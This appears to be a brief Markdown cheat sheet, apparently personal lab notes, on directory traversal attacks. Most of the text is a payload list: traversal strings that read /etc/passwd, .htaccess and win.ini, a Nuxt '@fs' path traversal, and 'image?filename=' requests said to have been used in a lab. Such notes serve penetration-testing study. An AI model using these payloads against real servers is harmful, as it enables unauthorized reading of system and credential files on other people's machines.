 # What is directory traversal
Allows read files in a server

## How to find
- Identify instances with common directory traversal
```bash
../../../../etc/passwd
../../../.htaccess
\..\WINDOWS\win.ini
\..\..\WINDOWS\win.ini
```

## Path Traversal in nuxt
```bash
/nuxt/@fs/etc/passwd
```

## Payloads used in lab
```bash
/image?filename=/../../../../../../../../etc/passwd
/image?filename=/../../../../../../../../etc/passwd
GET /image?filename=/etc/passwd
```
